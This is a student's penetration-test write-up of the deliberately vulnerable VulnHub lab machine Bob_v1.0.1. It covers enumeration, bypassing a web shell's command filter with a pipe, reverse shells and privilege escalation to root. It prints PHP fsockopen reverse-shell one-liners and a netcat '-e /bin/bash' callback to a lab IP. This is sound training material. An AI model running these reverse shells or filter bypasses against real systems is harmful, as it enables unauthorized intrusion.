# Milburg-Highschool-Server-Vulnhub-Penetration-Report

## My Details

PenTester: Abdiaziz Ibrahim Kar
Occupation: Student  
Institution: United States International University – Africa (USIU-A)  
Vulnerable Box: Bob_v1.0.1  
Download Link: https://download.vulnhub.com/bob/Bob_v1.0.1.ova
Author: c0rruptedb1t  

## Disclaimer

This report documents a penetration test on the intentionally vulnerable machine Bob_v1.0.1 authored by c0rruptedb1t, available at www.vulnhub.com. Please be aware that the test has been done to solidify the knowledge gained from Jr Penetration Tester learning pathway at TryHackMe.

## Description

The Milburg Highschool Server has just been attacked, the IT staff has taken down their windows server and are now setting up a linux server running Debian. Could there a few weak points in the new unfinished server?

## Objective

The objective of this penetration test is to get the flag in the root (/) directory.

## SCANNING AND ENUMERATION

### Network Mapping using NMAP

I used Nmap to identify open ports, services, and their versions on the server.


Nmap scan results:
- **Port 80 is open and running http service, Apache httpd 2.4.25** ((Debian)) web server.
- **Port 25468 is open and running ssh service, OpenSSH 7.4p1**
- The server is powered by **Linux Operating System**

The scan also revealed entries in **/robots.txt** disallowing search engines from crawling:
- **/login.php**
- **/dev_shell.php**
- **/lat_memo.html**
- **/passwords.html**

### Directory Enumeration

To unveil any hidden paths, not shown on the web and Nmap’s output, I used gobuster. **Gobuster** is a tool for directory and subdomain enumerations.


The hidden paths discovered are:   **/.htaccess  /.htpasswd  /.hta  /server-status** . These paths showed **403 Forbidden status code**, hence they are **not accessible without authorization**.

### Manual Inspection of */robots.txt* Entries

From here, I decided to manually navigate to entries mentioned in the **/robots.txt**.

**/passwords.html**


The page has message from Bob,the IT Admin. The admin scolding members for exposing plain text passwords.

**/lat_memo.html**


Checking the /lat_memo.html page, it has a memo from Mr. Bob reminding guys to check emails regarding recent security breach. Bob also mentions an active, unprotected web shell,that is using filters from the previous windows server.

**/dev_shell.php**


The page has a web shell accepting commands and returning output, but heavily restricted by filters. It is time to get around these filters and gain access.

## GAINING ACCESS

The page **/dev_shell.php** accepts a command and returns output. I tried to check the user web app runs as. 
user: **www-data**


Due to filters and backend restrictions, **I couldn’t run simple commands such pwd, cd, ls. Most of the commands returned:** **"Getout skid lol"**


### Establishing a reverse shell

After some thought, i realized getting a shell would bypass the restrictions imposed by the web filters. **I initiated reverse shell listener from my machine and pasted the connection command into the input field**.
Setting up the listener:


Command to connect back:


 Unfortunately, a connection failed to establish. The output remained: **"Getout skid lol"**
 

 Since the extension is **.php**, I concluded that **the web shell uses PHP for the backend**. I switched from **simple Netcat payloads** to **PHP-specific shell payloads**. 

After researching, I found these payloads:
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.2.15",4444);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.2.15",4444);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("10.0.2.15",4444);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.2.15",4444);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.2.15",4444);popen("/bin/sh -i <&3 >&3 2>&3", "r");'

All tested shell scripts failed to bypass the filters and returned:  **“Nice try skid, but you will never get through this bulletproof php code”**
 
 I also tried submitting **encoded versions** of the shell scripts, but they were also blocked.

In an attempt to check files with SUID permissions, I ran: 
**find / -perm -04000 -type f 2>/dev/null | ls -al**
Surprisingly, this returned all files and folders in the current directory, even though **ls -al alone* was blocked. 
**Initial command**: **ls -al*

**Piped command:** **find / -perm -04000 -type f 2>/dev/null | ls -al*

What is the secret? Piping acceptable command and filtered command. This revealed that the filter only checks the first command and not any other that comes after the pipe operator (|). 

To confirm with different commands, i ran **whoami piped with pwd (whoami|pwd)*. As shown earlier, pwd alone returned: **“Get out skid lol”* but when piped with whoami, the command executed successfully.

It is time to establish reverse shell connection, following the same steps failed earlier.
Leveraging the filter bypass technique, I set up netcat listener and executed in the web shell: **whoami | nc 10.0.2.15 4444 -e /bin/bash*


This time, the reverse shell connected successfully as shown below:


### Stablizing the gained shell

I used python’s pseudo-terminal (pty) library to improve the shell and make it more stable.


The main objective of the challenge was to read the flag in the root (/) directory. I first listed target directory's contents


As shown above, the **flag.txt* can only be read and written by the owner (root). Other users have no privileges at all.

I also tried to get content from **/etc/shadow* and **/etc/passwd* for possible cracking of hashed passwords using **John the Ripper*. The **www-data* user has no privileges to read the said files.


It is time to escalate privileges for **www-data* account.

## PRIVILEGE ESCALATION

To escalate privileges of **www-data**, I checked services www-data (current user) can run as root, using the command **sudo -l**:


The user can run **/usr/bin/service apache2** * and **/bin/systemctl start ssh**.
Attempts to abuse both privileges went futile. Started with /bin/systemctl start ssh but got errors requiring log assessment and checking. After several trials, I also failed to manually abuse the privilege /usr/bin/service apache2 * 


Going back to **/home directory**, it has total of **four users: jc, seb, elliot and bob**. Navigating to **/home/bob** directory, I saw an interesting file that caught my attention. The file has **old passwords for users:  jc, seb**.
Some users tend to use old passwords.  Seb’s password looks more realistic and has higher possibility of retention.


I changed from jc to user seb:


There is nothing catchy under this user, changed back to www-data. I visited **/home/elliot** I saw a very interesting file: **theadminisdumb.txt*


Out of my curiosity to know how dumb the admin is, I read the file. **It contains the password for user: elliot** and other helpful information.


Back to **/home/bob/Documents** directory, there are some eye-catching files.


I displayed the content of staff.txt. The file has Bob's view about other staff.


I also Looked into **login.txt.gpg**. This is an encrypted file that might contain important credentials. The encryption has been done using **GNU Privacy Guard (GPG)** tool, as its extension (.gpg) suggests.


It was impossible to decrypt the file in the target machine reason being current user not having privileges to run the tool.


From this point i decide to transfer the file in the attacking machine for decryption. **I initiated http server on port 8080 of the target machine** and downloaded the file in my attacking machine.



The decryption isn't possible without the passphrase, as gpg tool takes passphrase as one of the arguments. I hunted the phrase and dug deep in **/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here* directory. Finally i came accross an executable file **notes.sh*. On execution, it outputs lines of strings that don’t make sense, with no relevance.


After several trials, i came to know the decryption passphrase of login.txt.gpg is combination of starting letter for each new line. passphrase: **HARPOCRATES*

With the passphrase, i have successfully decrypted, got the plain text of **login.txt.gpg*.


Probably, **b0bcat_* is the password for user bob. I changed to user bob, as the IT administrator,he has higher privileges compared to others. The password worked fine.


I checked Bob’s privilege, fortunately he has root privileges and can run files with no restrictions, using **sudo -l*

Finally, **I executed the cat command with root privilege** to obtain the actual content of **flag.txt in root directory (/)**
